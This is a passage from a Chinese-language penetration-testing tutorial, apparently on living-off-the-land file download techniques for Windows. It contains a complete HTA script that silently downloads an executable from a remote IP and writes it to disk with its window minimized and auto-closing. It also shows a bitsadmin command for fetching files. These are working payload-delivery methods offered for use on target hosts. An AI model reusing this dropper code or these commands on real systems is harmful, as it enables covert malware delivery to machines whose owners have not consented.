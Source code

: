 ### 7、hta

添加最小化和自动退出hta程序的功能，执行过程中会最小化hta窗口，下载文件结束后自动退出hta程序

以下代码保存为.hta文件：

```
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.174.145/ssss2.exe",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\test\\update\\ssss2.exe", 2);
    Stream.Close();
}
window.close();
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">
</head>
<body>
</body>  
</html>

```

### 8、bitsadmin

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。xp以后的Windows系统自带

使用方法：

cmd下：

```
bitsadmin /transfer n http://download.sysinternals.com/files/PSTools.zip  C:\test\update\PSTools.zip 

```

下载成功如图：

![Alt text](http://drops.javaweb.org/uploads/images/db8cea4b74c414e87cc7e6a8a994d9295d29e2d1.jpg)

**注：**  
不支持https、ftp协议  
使用kali的simplehttpserver作服务器会报错
